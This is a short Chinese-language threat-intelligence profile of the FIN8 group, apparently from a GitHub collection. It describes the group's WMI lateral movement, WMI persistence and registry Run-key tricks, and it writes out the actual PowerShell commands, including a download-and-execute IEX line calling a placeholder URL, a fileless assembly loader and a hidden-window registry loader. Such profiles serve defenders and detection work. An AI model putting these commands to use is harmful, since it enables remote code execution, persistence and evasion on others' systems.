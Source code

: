 # FIN8

## 特征

1. 横向移动时使用WMI进行远程命令执行:wmic.exe /node:<target> process call create "cmd /c powershell.exe -nop -ep bypass -c $pw='b640a9c0e64704e1e202a07774613a29971fe5aa';$pa='sys';iex (New-Object System.Net.WebClient).DownloadString('https://Url地址/134af6')"，其中$pw用来解密下载的脚本文件，$pa为模拟令牌说明，会注入svchost.exe -k netsvcs运行的进程，最后通过IEX下载文件.

2. 通过WMI创建触发器来保持持久性，使用命令:cmd.exe /Q /c powershell.exe -nop -ep bypass -c C:\sldr.ps1 B4a0f3AE251b7689CFdDe1 1> \\127.0.0.1\ADMIN$\__1621898828.3311949 2>&1,在WMI中创建三个对象来保证持久。sldr.ps1脚本包含了一个RC4加密的字符串，B4a0f3AE251b7689CFdDe1则为解密的密钥.其中创建的第二个对象会通过无文件的方式加载到内存中，并通过StartCheck()执行静态方法:powershell.exe -nop -c [System.Reflection.Assembly]::Load(([WmiClass]'root\cimv2:Win32_Base64Class').Properties['Prop'].Value);[MSDAC.PerfOSChecker]::StartCheck().

3. ShellTea恶意软件会在注册表HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run中存在，而且会滥用通配符使其匹配Software降低检测.

```bash
"C:\\Windows\\System32\\cmd.exe '/c' 'powershell.exe' '-w' '1' '-nop' '-c ' 'start-process powershell.exe -windowstyle hidden -arg '-nop -c $a=(Get-ItemProperty registry::HKCU\\S???ware\\Fpkakesude);IEX $a.Xshuzugewogazi ' '"
```
